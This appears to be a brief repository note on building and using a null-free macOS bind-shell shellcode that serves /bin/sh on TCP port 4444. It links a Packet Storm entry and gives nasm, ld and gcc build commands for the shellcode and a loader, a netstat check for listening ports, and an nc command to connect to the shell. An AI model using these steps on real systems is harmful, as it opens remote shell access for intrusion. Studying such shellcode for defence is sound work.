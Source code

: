 # bindtcp /bin/sh on macOS
https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html
# asm compilation
nasm -f macho64 -o ipv4bind.o ipv4bind.s && ld -macosx_version_min 10.7.0 -o ipv4bind ipv4bind.o

# gcc compilation
gcc -o loader loader.c

# FIND OPEN PORTS
netstat -anvp tcp | awk 'NR<3 || /LISTEN/'

# CONNECTING TO BOUND TCP
nc -v 0.0.0.0 4444
